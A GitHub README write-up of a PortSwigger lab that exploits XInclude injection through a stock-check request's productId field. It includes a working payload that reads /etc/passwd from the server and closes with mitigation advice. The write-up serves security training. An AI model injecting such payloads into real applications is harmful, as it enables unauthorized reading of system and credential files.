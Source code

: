 

### 📁 `README.md` — Exploiting XInclude to Retrieve Files

# 📂 Exploiting XInclude to Retrieve Files

**🧪 Lab Level:** Practitioner  
**🔐 Vulnerability:** XML External Entity Alternative via XInclude  
**✅ Status:** Solved  
**🛠 Platform:** PortSwigger Web Security Academy  
**🎯 Objective:** Retrieve `/etc/passwd` using an XInclude injection instead of classic XXE.

---

## 🔍 Lab Overview

This lab uses XML parsing where the user input is embedded inside a server-side XML document.  
Because you **do not control the entire XML document**, **classic DTD-based XXE attacks are impossible**.

The solution: exploit **XInclude** to fetch and include local files like `/etc/passwd`.

---

## ⚙️ Exploitation Steps

### 1. 🕵️ Intercept the Request

On a product page, click **"Check stock"** and intercept the POST request in **Burp Suite**.

The XML payload looks like this:

```xml
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
````

---

### 2. 🎯 Inject XInclude Payload

Modify the `productId` value to the following XML snippet:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

The modified request snippet will be:

```xml
<stockCheck>
  <productId>
    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/>
    </foo>
  </productId>
  <storeId>1</storeId>
</stockCheck>
```

---

### 3. 📡 Analyze the Response

The server will process the XInclude directive and include the contents of `/etc/passwd` as plain text in the response.

This confirms the XML parser supports **XInclude processing** and can be abused to read local files.
![XXE](https://github.com/Kabilala/xxe/blob/main/lab7/lab7.png)
---

## 🧠 Technical Insight

| Concept        | Explanation                                                                |
| -------------- | -------------------------------------------------------------------------- |
| **XInclude**   | XML standard allowing inclusion of external resources within XML documents |
| `xmlns:xi`     | XML namespace declaration for XInclude                                     |
| `<xi:include>` | Directive to include the content of the specified resource                 |
| `parse="text"` | Specifies inclusion as raw text, avoiding XML parsing issues               |

---

## 🔐 Mitigation Strategies

* Disable **XInclude processing** in XML parsers if unused
* Use **input validation and sanitization** to prevent XML injection
* Implement **least privilege** to limit file system access by XML parsers
* Monitor for unexpected file access in server logs

---

## 📚 References

* [PortSwigger Academy: XInclude Injection](https://portswigger.net/web-security/xml/xinclude)
* [W3C XInclude Specification](https://www.w3.org/TR/xinclude/)
* [OWASP XML External Entity (XXE) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)